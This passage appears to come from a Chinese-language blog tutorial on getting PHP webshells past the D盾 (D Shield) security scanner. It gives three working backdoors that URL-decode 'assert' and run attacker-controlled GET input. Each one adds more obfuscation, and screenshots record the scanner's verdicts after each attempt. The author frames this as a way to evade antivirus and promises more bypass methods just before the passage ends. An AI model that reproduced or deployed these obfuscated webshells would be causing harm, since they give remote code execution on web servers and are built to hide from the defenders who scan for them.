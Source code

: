 查杀结果：

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430534-afb6c2b8-8ed4-4d49-880b-a39fc0bf6b19.png)

直接就一级了。。。看来D盾后来改规则了。。。

可以看到他报了变量函数，并且指明了里面的参数，那么换个变量来代替GET传参试试

```
<?php
$a=urldecode('%61%73%73%65%72%74');
$b=$_GET['yzddmr6'];
$a($b);
?>
```

D盾照样报了相同的警告，那么再把参数混淆一下？

```
<?php
$a=urldecode('%61%73%73%65%72%74');
$b=urldecode("%5f%47%45%54");
$c=${$b}['mr6'];
$a($c);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430627-b24da8f4-92d0-47d3-a06d-1b0a095df769.png)

这里就只报变量函数了，但是照样是1级。

再混淆一下？

```
<?php
function test(){
    $a=urldecode('%61%73%73%65%72%74');
    if ('a'>'b'){
        return ;
    }
    else return $a;
    
}
$b=urldecode('%24%5f%47%45%54%5b%27%79%7a%64%64%6d%72%36%27%5d');
$test=test();
$test($b);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430716-cd6e8407-7c48-40d6-869e-13183f1b2798.png)

我们发现只要满足xxx(xxxx)这种格式D盾都会报一级。

从自己这么长时间跟D盾的斗争经验来说，1级变量函数不太容易过

这里直接给大家分享一些自己总结的免杀方法。
